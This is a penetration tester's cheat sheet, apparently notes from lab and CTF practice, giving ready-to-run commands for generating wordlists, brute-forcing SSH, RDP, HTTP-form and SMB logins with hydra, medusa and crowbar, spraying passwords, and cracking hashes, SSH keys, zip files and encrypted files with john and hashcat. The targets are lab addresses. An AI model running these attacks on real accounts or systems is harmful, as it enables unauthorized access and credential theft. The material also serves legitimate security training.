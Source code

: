 ## Wordlists:
    kali: /usr/share/wordlists
    https://github.com/danielmiessler/SecLists
    Custom Wordlists:
        Website Scraping Example:
          cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
          edit /etc/john/john.conf, adding rule that mutates our wordlist by adding 2 numbers at the end of each word:   $[0-9]$[0-9]
          john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
        Pattern Example:
          crunch 8 8 -t ,@@^^%%%
          only certain characters:  crunch 4 6 0123456789ABCDEF -o crunch.txt

## Login Brute-Forcing:
        HTTP htaccess attack with Medusa:
            medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
        RDP attack with Crowbar:
            crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
        SSH attack with THC-Hydra:
             hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
             With a list:   hydra -L userlist.txt -P passwordlist.txt ssh://10.10.10.184
        HTTP POST attack with THC-Hydra:
            hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -f
            hydra 10.10.10.43 https-form-post "/db/index.php:remember=yes&login=Log+In&proc_login=true&password=^PASS^:Incorrect password" -s 443 -P /usr/share/wordlists/rockyou.txt -f
            no username: -l ''
            hydra 10.10.10.184 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password\!" -f
            hydra 10.10.10.184 -l admin -P /usr/share/wordlists/rockyou.txt https-post-form "/index.php:__csrf_magic=sid%3Ad38e7d40800f071201501427269c237c40fa4482%2C1614984752&usernamefld=^USER^&passwordfld=^PASS^&login=Login:Username or Password incorrect" -f
            List:  hydra 10.10.10.191 -l fergus -P passwordlist.txt http-post-form "/admin/login:username=^USER^&password=^PASS^&save=:Username or password incorrect" -f
            CSRF token means probably won't work
        HTTP Authentication:
            hydra 10.10.10.10 -l username -P /usr/share/wordlists/rockyou.txt http-get -s 34226
     
	If other options fail but you have usernames, spray for passwords:
		cewl http://example.com/index.htm --with-numbers > wordlist
		hydra -L users -P wordlist 10.10.10.193 smb
		then try to login w/ creds:  smbclient -U username -L \\\\10.10.10.193
			If Password Must Change error: change it with:  smbpasswd -r 10.10.10.193 username
				If it reverts/resets quickly, use one-liner to run commands:  if echo "$pass" | smbclient -L //10.10.10.193 -U username 2>/dev/null >/dev/null; then echo "Password $pass still good"; else pass=$(date +%s | md5sum | base64 | head -c7; echo .); (echo '<Hostname>'; echo "$pass"; echo "$pass";) | smbpasswd -r 10.10.10.193 -s username; echo "password reset to $pass"; fi; [command here]
		Then enumerate smb and rpc using creds
     
     
## Password Cracking:  
	  hash-identifier
	  $5$ sha256, 
	  gunzip /usr/share/wordlists/rockyou.txt
	  Online:  https://crackstation.net/
	  John the Ripper:
		    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		    With rules:   john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		    Linux:
	  Hashcat (GPU-based):
	      Modes: 3200 bcrypt, 7400 sha256,
	      hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst
	      hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
	      .\hashcat.exe -m 3200 -a 3 hashes.txt 'SKY-TEST-?d?d?d?d' --- known format, brute force mode
	      Rule Example:
		  password is some variation of PleaseSubscribe!
		  echo -n "PleaseSubscribe\!" > rulefile.txt
		  hashcat -a 0 -m 3200 -r /usr/share/hashcat/rules/best64.rule /root/hash.txt rulefile.txt
	      BEST RULE FILE: /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule
		      hashcat64.exe --force -m300 --status -w3 -o found.txt --remove --potfile-disable -r rules\OneRuleToRuleThemAll.rule hash.txt rockyou.txt
	  Other File Formats:
	    Zip: fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup
	      Or: zip2john ...
	    SSH Key: /usr/share/john/ssh2john.py id_rsa > id_rsa.john ;  john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
			  make copy without pw:  openssl rsa -in id_rsa -out id_rsa_nopass
	    keepass2john (.kdbx file)
	    rar2john
	    tar.gz.enc file: netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/out.tar.gz ;  tar -xf out.tar.gz  
	    Openssl base64 encoded file:  cat /usr/share/wordlists/rockyou.txt | while read pass; do openssl enc -d -a -AES-256-CBC -in .drupal.txt.enc -k $pass > devnull 2>&1; if [[ $? -eq 0 ]]; then echo "Password: $pass"; exit; fi; done;  

